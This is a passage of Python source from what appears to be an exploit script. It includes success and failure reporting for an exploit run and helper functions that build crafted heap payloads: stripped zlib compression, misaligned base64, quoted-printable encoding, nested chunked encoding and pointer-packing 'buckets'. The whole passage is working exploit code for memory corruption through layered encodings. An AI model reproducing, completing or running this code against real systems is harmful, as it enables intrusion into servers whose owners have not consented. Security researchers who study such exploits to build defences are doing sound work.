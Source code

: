 ```python
        
        if not self.sleep:
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
        
        msg_print()


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
```